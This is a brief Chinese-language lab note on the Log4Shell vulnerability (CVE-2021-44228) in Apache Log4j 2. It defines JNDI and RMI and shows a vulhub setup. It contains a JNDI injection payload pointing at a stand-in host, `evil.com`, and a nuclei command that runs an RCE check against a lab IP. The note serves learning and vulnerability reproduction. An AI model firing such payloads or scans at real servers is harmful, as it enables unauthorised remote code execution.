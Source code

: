 # Apache Log4j 2

**Apache Log4j 2** 是 Apache 软件基金会开发和维护的一个高性能、灵活和可靠的 Java 日志框架，是 Log4j 的下一代产品。它广泛用于企业级 Java 应用的日志记录与分析。

JNDI（Java Naming and Directory Interface，Java 命名和目录接口）是 Java 平台提供的一套 API，用于统一访问不同类型的命名和目录服务。

RMI 即 Remote Method Invocation（远程方法调用），是 Java 提供的一种远程通信机制，允许一个 Java 程序调用另一个 Java 虚拟机（JVM）中对象的方法，就像调用本地对象一样。

## Log4shell(CVE-2021-44228)

在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于 `${jndi:ldap://evil.com/example}`的 lookup 用于进行 JNDI 注入，执行任意代码。

### 漏洞环境

```bash
cd vulhub/log4j/CVE-2021-44228
docker compose up
```

### 漏洞利用

```bash
nuclei -id apache-solr-log4j-rce -u http://192.168.200.1:8983
```

## 参考

<https://tttang.com/archive/1378/>
<https://www.anquanke.com/post/id/263325>

